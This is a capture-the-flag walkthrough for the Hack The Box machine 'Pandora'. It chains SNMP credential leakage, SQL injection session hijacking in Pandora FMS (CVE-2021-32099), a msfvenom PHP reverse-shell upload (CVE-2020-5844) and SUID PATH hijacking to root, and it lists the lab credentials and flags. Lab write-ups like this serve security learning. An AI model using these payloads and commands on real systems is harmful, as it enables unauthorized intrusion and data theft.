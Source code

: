 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

## CVE-2021-32099
6. Test the target system with malformed input values'    "   `   %    %%   --   /*   //    )    ;
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20%20%20%20%22%20%20%20`%20%20%20%%20%20%20%20%%%20%20%20--%20%20%20/*%20%20%20//%20%20%20%20)%20%20%20%20;

````sql
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use 
near '" ` % %% -- /* // ) ;' LIMIT 1' at line 1 ('SELECT * FROM tsessions_php WHERE `id_session` = '' " ` % %% -- /* // ) ;' LIMIT 1') in
/var/www/pandora/pandora_console/include/db/mysql.php on line 114
````

````sql
sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*' --dbms=MySQL --sql-shell
sql-shell> SELECT * FROM tsessions_php WHERE `id_session` = ''OR `data` LIKE '%id_usuario|s:5:"admin";%'
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, gn7p2qba6310m05qn6iom3bvdf, 1642782084
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, hj8tgic0fv8hmmb19b3j851af5, 1642779787
````

7. Access the URL
````sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=PAYLOAD'OR `data` LIKE '%id_usuario|s:5:"admin";%
````

and then your user will be logged
````
http://127.0.0.1/pandora_console/
````

## CVE-2020-5844

8. Create the payload then start multi handler

````bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o payload.php
$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
````

9. Upload the file to the vulnerable URL
````
http://127.0.0.1/pandora_console/index.php?sec=gextensions&sec2=godmode/setup/file_manager
````

10. Access it on your browser
````
http://127.0.0.1/pandora_console/images/payload.php
````

````bash
root@kali:~# msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
LPORT => 4444
LHOST => tun0
[*] Started reverse TCP handler on 10.10.14.221:4444 
[*] Sending stage (39282 bytes) to 10.10.11.136
[*] Meterpreter session 1 opened (10.10.14.221:4444 -> 10.10.11.136:37560 ) at 2022-01-21 16:42:47 -0500

meterpreter > getuid 
Server username: matt
meterpreter > shell
cd /home/matt
ls
user.txt
cat user.txt
c06f3d03f86982c2cd7daa9fd244029f
````

11. Add your public key to matt's authorized_keys
- Then loggin through ssh 
- And execute the priv escalation

````bash
matt@pandora:/home/matt$ find / -perm -u=s 2> /dev/null
find / -perm -u=s 2> /dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1


matt@pandora:~$ cd /home/matt/
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ /usr/bin/pandora_backup
root@pandora:/root# cat root.txt 
4b0007bc3e164fba81e2052df250cd23
````

[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)

# Secrets
FLAG_USER = c06f3d03f86982c2cd7daa9fd244029f

FLAG_ROOT = 4b0007bc3e164fba81e2052df250cd23
